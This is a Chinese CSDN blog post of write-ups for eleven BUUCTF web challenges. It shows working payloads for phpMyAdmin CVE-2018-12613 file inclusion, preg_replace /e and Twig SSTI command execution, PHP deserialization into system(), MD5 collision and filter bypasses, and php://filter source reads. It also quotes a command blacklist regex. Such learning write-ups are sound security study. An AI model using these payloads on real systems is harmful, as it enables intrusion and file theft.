






<!--yml
category: 未分类
date: 2022-04-26 14:53:41
-->

# BUUCTF解题十一道(04)_Sprint#51264的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_45837896/article/details/117751870](https://blog.csdn.net/qq_45837896/article/details/117751870)

# [GWCTF 2019]我有一个数据库


这题目长得着实畸形，但是看这字符像是编码出问题然后出来的结果

没有其他提示，发现前辈用`dirb`扫描目录出来`phpmyadmin`目录，可以访问

我们就直接试一试，对了，扫描记得设置延迟，不然一直报`429`

根据版本看看有没有可以利用的漏洞，

apache/2.4.29(ubuntu)
phpmyadmin/4.8.1 远程文件包含漏洞（CVE-2018-12613）

> [CVE-2018-12613](https://www.cnblogs.com/leixiao-/p/10265150.html)

好家伙，看了这个漏洞分析之后啊，我想来warmup那道题，用的也是类似的漏洞，先传参进去，然后判断问号前的东西在不在白名单中，如果正确的话就跳出来，如果不在白名单里就`url`解码一波，然后判断问号之前的是不是在白名单里，如果是就会返回`true`，每次判断之前判断的都是`$page.?`，所以没有问号的话就会截取整个url，于是乎我们可以向其中传一个二次编码之后的问号(`%253f`)

```
 $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false; 
```

`payload`:’?target=db_datadict.php%253f/…/…/…/…/…/flag’

emm返回上级目录的次数是我试出来的。
不用二次编码的`?`也可以直接绕过，在编码`$page`上面的第一个判断就返回`true`了

再解释一下这个`?`传到路径里怎么解释，平白无故一个问号直接放到路径里面，能成功包含吗，解释就是，`?`是通配符，可以代替任意单个字符，所以包含路径可以匹配到`flag`在的路径。
例如：
`index.php?../`=>`index.php../`代替为空

**旧友新朋吖**

# [BJDCTF2020]ZJCTF，不过如此

> [深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

来到题目页面
代码审计
获取`text`和`file`参数，然后有一个强比较text内容和包含`next.php`
我感觉这道题又似曾相识，可能要用到`data://`文件流打印指定内容
`?file=next.php&text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=`

看来第一个大条件达成了，但是没有`next.php`文件的内容，想起来之前遇到类似的题，用`php://filter`读源码试试

它来了
将内容`base64`解码

```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
} 
```

GET`id`参数，然后把`session`设置为`$id`,`reg_replace()`中`/e`模式为可执行模式

学习的时候还学到一个`fuzz`脚本，最近要持续学习编程，贴出来学习

```
import requests

for i in range(0,256):
	url=""+chr(i) 

	r=requests.get(url)
	if '(被替换的内容)' in r.vontent:
		print str(i)+':'+chr(i) 
```

在PHP中，对于传入的非法的 $_GET 数组参数名，会将其转换成下划线，这就导致我们正则匹配失效

> [[BJDCTF2020]ZJCTF，不过如此](https://www.cnblogs.com/wangtanzhi/p/12328083.html)

`/next.php?\S*=${getflag()}&cmd=show_source(%22/flag%22);`
`next.php?\S*=${eval($_POST[wtz])} POST： wtz=system("cat /flag");`#其中的wtz可以自定义，这里是这位博主的缩写

顺便复习一下刚刚学的几个函数：`readfile(),file_get_contents(),highlight_file()`都可以读出flag


**旧友新朋！！！！**

# [BJDCTF2020]The mystery of ip


界面很有意思，左上角三个选项，主页，flag，hint


`flag.php`能查出我的ip，肯定是用了什么功能

> [王叹之的解题思路](https://www.cnblogs.com/wangtanzhi/p/12318630.html)

从`XFF`头入手，尝试模板注入
`{{system("ls")}}`

`X-Forwarded-For:{{system("ls cd ../../../../&cat /flag")}}`

他直接写`/flag`是因为flag就在根目录下，我添加一下寻找有flag路径的过程解决一下问为什么直接`cat /flag`的疑惑

**学习！学习！！**

# [BJDCTF2020]Mark loves cat


打开是一个个人博客网站，看到这个页面首先我考虑的是`模板注入`，然后就是可能有`文件上传`，如果再没有就考虑第二层,`页面隐藏信息`，发现隐藏文件，目录扫描，或者，`源码泄露`，目录扫描低线程带延时。有git目录

用`githack`看源码


其实如果够细心的话就会发现他博客页面左下角有一个`dog`字样哈哈哈，根据这个点可能会想到查看页面源码的，看看进行了什么判断

```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag; 
```

这是`index.php`源码中关于这个`dog`的代码

*   文件包含`flag.php`，其中将flag内容赋值给`$flag`
*   第一个`foreach`：如果post:`a=b`则相当于`$a=b`
*   第二个foreach：如果get:`c=d`则相当于`$c=$d`
*   下面就是判断了，见注释

经过审计我们可以发现这里传参可能会覆盖掉原来的参数，尤其是`GET`传参，存在很大的问题，我们可以直接构造`GET：yds=flag`进去，然后执行第二个判断打印`$yds`，就相当于输出`$flag`，就可以了
**先前脑子抽了，死活想不通**

# [安洵杯 2019]easy_web


我们看到题目主界面，说到`md5`，可能又是绕过弱比较的题目，先猜测一下，往下看看

`F12`出来一个有趣的东西


*   url里面有一个传参`cmd`
*   前面还有一个`img`的参数,看起来像`base64`,emm但是解码的时候出错了
*   用`=`填充一下
*   `TXpVek5UTTFNbVUzTURabE5qYz0=`=>`MzUzNTM1MmU3MDZlNjc=`
*   `3535352e706e67`，数字与`e`的结合，长度短，推测`16进制`
    
    我还尝试了一下`php://filter`不能读取源码，或者源码泄露文件没找到

不知道这个文件怎么引用的，是不是文件包含

我们把这个`index.php`也按同样的加密方式来一波，传进`img`里面

`F12`看一下源码，属性里面有源码的base64版本

```
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];

if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);

if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}

echo $cmd;
echo "<br>";

if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {

    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:
}
</style>
<body>
</body>
</html> 
```

解码后，进行代码审计,具体内容见上

好家伙，我学了一招，`linux`下命令行尾部输`\`可以换行并继续输入命令，与上一行进行连接，命令可以正常执行，用这一特性可以绕过全字匹配的正则匹配

举个例子

绕过强制类型转换MD5强比较
`a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2`

`b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2`

*   没有过滤`.`和`/`我们直接在这里面找 `flag`
    

去根目录


`ca\t%20../../../fla\g`


**又学到了学到了！**

# [网鼎杯 2020 朱雀组]phpweb

出现一个一直刷新时间的页面，告诉我们要正确设置时区

抓包分析，发现有一个传函数的参数


发现它是把后面的内容当作参数读到前面的函数参数里面的，我们把`index.php`作为参数写进去


得到页面源码，当然这里用其他几个读源码的函数也行

`readfile,show_source,highlight_file`，emm后面两个函数是一样的，别名关系

```
 <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?> 
```

下面我们来代码审计

*   过滤敏感函数名称…很多很多
*   `call_user_func`把后买你的参数调给第一个参数代表的函数当作参数使用，于是乎才有我们能执行读取源码的操作，所以说`gettime`是一个自定义的函数，可以被我们用来执行其他函数
*   下面还定义了一个类，可能和反序列化有关
*   用`REQUEST`方式获取参数
*   对`fuc`进行过滤，如果不在黑名单里就能执行

学习前辈思想

既然是执行php函数，那可以利用反序列化进行绕过，函数为`unserialize`,参数为包含信息序列化后的结果

注意，传递的这两个参数放到代码里执行之后是成功反序列化，真正执行函数是反序列化之后出来的类执行了类里面的`gettime`函数

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:12:"ls ../../../";s:4:"func";s:6:"system";}`
但是发现找不到`flag`这个文件

> [[网鼎杯 2020 朱雀组]phpweb](https://www.cnblogs.com/h3ng/p/12971253.html)

使用`find`函数找flag

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:20:"find / -name 'flag*'";s:4:"func";s:6:"system";}`

再次构造payload

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`


**思路巧妙啊**

# [ASIS 2019]Unicorn shop

**崩了，前面的几道不会，我找个整块的学习时间学一下原理**

看看这个友好的题目吧

让我们输入商品名和价格买一只独角兽，输入对应的`id`和`price`发现前三个都不能买，让我们买第四个，但是会报错

用一个字符作为价格输入，我当时不懂这要怎么弄
看了一下大佬的博客

> [参见](https://blog.csdn.net/SopRomeo/article/details/105465756)

查看源码


作者留了几个暗示在源码里，其中第一个就是`utf-8`，是，里面收录了世界上很多种语言字符，其中也收录了单个字符代表价值的，可以找找看，


这是我没想到的真的，很神奇，用这个字符的编码吧
`%E2%86%81`

**unicode字符编码。。。神奇**

# [BJDCTF2020]Cookie is so stable

题目提到`cookie`，于是乎要找关于`cookie`的点


这里能登陆，我们登录之后抓包看看有什么


`user`这里输入什么就显示什么文本，尝试模板注入`{{7*7}}`可以执行

大佬说因为页面为php所以确定为`twig`,

使用它的payload

`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

就得到flag了，说实话，没有完全弄懂原理到底是什么，会用paylod了倒是…

这种感觉还是挺不自在的

**SSTI**

# [BSidesCF 2020]Had a bad day


点不同选项会出来不同的小猫小狗图片，点第二次发现和之前的不一样了，所以我怀疑有文件包含点，并且随机文件，我们仔细看看


看到有这么一个参数

我尝试选择`../`文件夹


发现这么一个报错，那我在`meowers`加`../`


这不就来了嘛~，报错信息告诉我们它包含文件的格式，原来是在我们路径的末尾还要加一个`.php`

我们可以试着找一找`flag.php`

在目录后面跟`../flag`

发现只有`../../flag`页面没报错，所以`flag.php`就在这个目录下

那我们可以试试读取源码

`php://filter/read=convert.base64-encode/resource=index`记住别加`.php`，因为页面给你加了

解码后发现源码里面有这么一段

```
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?> 
```

我们试着读取一下`meowers../../flag.php`的源码

`php://filter/read=convert.base64-encode/resource=meowers../../flag`


哈哈哈哈哈我是不是学会文件包含结合伪协议了啊哈哈哈，开心

**文件包含！伪协议！**

# [WUSTCTF2020]朴实无华

这个题目的界面是挺朴实无华的，很简洁很简洁


输入错误的文件的话会这样提示


我还正在怀疑这是怎么判断的，抓包看了一下发现也没有传参

正在纳闷的时候看到这个标题


emm一串看不懂的字，但是后面加了一个`bot`，怀疑是不是让看`robots.txt`发现不让找到的路径


还真是，访问它看看


得，出来个假身子

然后我就想要不再抓包分析一下吧，扔到`repeater`里面看看怎么回事

正乱点呢，看到响应头里出来个这个


好像是有个文件`fl4g.php`，赶快访问一下


出来的时候其实给我吓一跳…里面有很多奇怪的文字，我寻思应该是什么编码问题，看不到了

[WEB狗的各种绕过 —— 【WUST-CTF2020】朴实无华](https://blog.csdn.net/qq_42939527/article/details/105195794)

参考着这个文章做完


```

<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "鎴戜笉缁忔剰闂寸湅浜嗙湅鎴戠殑鍔冲姏澹�, 涓嶆槸鎯崇湅鏃堕棿, 鍙槸鎯充笉缁忔剰闂�, 璁╀綘鐭ラ亾鎴戣繃寰楁瘮浣犲ソ.</br>";
    }else{
        die("閲戦挶瑙ｅ喅涓嶄簡绌蜂汉鐨勬湰璐ㄩ棶棰�");
    }
}else{
    die("鍘婚潪娲插惂");
}

if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
}

if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?>
鍘婚潪娲插惂 
```

从`level 1`来绕过，`intval`函数

```
 if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "鎴戜笉缁忔剰闂寸湅浜嗙湅鎴戠殑鍔冲姏澹�, 涓嶆槸鎯崇湅鏃堕棿, 鍙槸鎯充笉缁忔剰闂�, 璁╀綘鐭ラ亾鎴戣繃寰楁瘮浣犲ソ.</br>";
    }else{
        die("閲戦挶瑙ｅ喅涓嶄簡绌蜂汉鐨勬湰璐ㄩ棶棰�");
    }
}else{
    die("鍘婚潪娲插惂");
} 
```

返回参数的整值，此处的值要求取证小于`2020`,加一后大于2021，

看了菜鸟教程的实例之后果断传入`'1e10'`,但是没有成功，可能是后台自动转换字符串，所以不用引号


嗯…嗯！

绕过`level 2`

```
 if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
} 
```

原来是`双重md5`后值比较（弱比较），这个我之前有记笔记

```
 CbDLytmyGm2xQyaLNhWn
        770hQgrBOjrcqftrlaZk
        7r4lGXCH2Ksu2JNT3BYM 
```

这些字符串`md5`和`双md5`后都是`0e`开头
加密一次后传一次md5的值就可以了
但是不知道为什么不行…可能是长度限制？？
`0e215962017`传博主说的这个吧

看`level 3`

```
 if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?> 
```

`strstr()`： 查找字符串的首次出现
`str_ireplace(1，2，3)`：把`3`中的`1`替换为`2`
首先参数中不能有空格，其次就是将参数中的`cat`替换为`wctf2020`

*   关键字绕过可能用`\`拼接
*   空格的话或许可以用`${IFS}`绕过，等等试一试
    先找一下flag在哪

`/fl4g.php?num=1e10&md5=0e215962017&get_flag=ls`


emm应该是在这个名字最长的文件中，我们试着`cat`一下
`fl4g.php?num=1e10&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`

噢~成了


**嗯~之前学的绕过挺有用的**

# [0CTF 2016]piapiapia

一开始以为是`sql`注入，但是试了试不大行
看别人的博客才知道`register.php`这个网页可以猜出来，那就猜

*   注册账户并登录
*   完善信息
*   之后会将个人信息输出在`profile.php`页面上


但是都没有找到什么过滤的信息，我以为传头像有图片马，谁知道不能连，所以寻找网站源码


从网站目录入手可以获得

还有其他常见思路是从传参位置为突破口，用伪协议


有这么些个文件可以看看
`config.php`中有个`flag`变量

```
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
	$flag = '';
?> 
```

`update.php`

```
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');	
	}
	if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

		$username = $_SESSION['username'];
		if(!preg_match('/^\d{11}$/', $_POST['phone']))
			die('Invalid phone');

		if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
			die('Invalid email');

		if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));

		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));

		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
	}
	else {
?> 
```

在`class.php`中找一下关于`update_profile()`函数的定义

```
public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	} 
```

`filter()`

```
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	} 
```

`update()`

```
public function update($table, $key, $value, $where) {
		$sql = "UPDATE $table SET $key = '$value' WHERE $where";
		return mysql_query($sql);
	} 
```

其中`filter`函数对输入的用户名和个人信息都进行过滤，将非法字符过滤为`hacker`

`update()`函数就是对数据库中的信息进行更新

但是看一下`profile.php`

```
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');	
	}
	$username = $_SESSION['username'];
	$profile=$user->show_profile($username);
	if($profile  == null) {
		header('Location: update.php');
	}
	else {
		$profile = unserialize($profile);
		$phone = $profile['phone'];
		$email = $profile['email'];
		$nickname = $profile['nickname'];
		$photo = base64_encode(file_get_contents($profile['photo']));
?> 
```

发现这里的信息是先反序列化然后再显示的，那么这里就能联想到`反序列化字符逃逸`了

也就是说，反序列化过程中对象长度和其属性标明的长度不符，就会导致对对象的读取不全，造成字符逃逸。

看白名单这里面的几个参数`'select', 'insert', 'update', 'delete', 'where'`，只有`where`是和`hacker`长度不同的，能引发字符逃逸，那我们就用`where`当作关键字

`profile`中读取照片的信息时用的是`file_get_contents()`函数，或许能用这个读一下源码,那就得使用`photo`这个位置，将`config.php`写到这里

但是`nickname`的输入有长度限制，那就使用传数组来绕过一下

构造payload

`wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}`

> 因为这里传的是数组，所以在逃逸字符前闭合的后面加一个`}`
> 

**s:16:“字符逃逸字符逃逸字符逃逸字符逃逸”}**

> 这阶段也先告一段落啦，我发现当中有很多很多不会的题，这…需要时间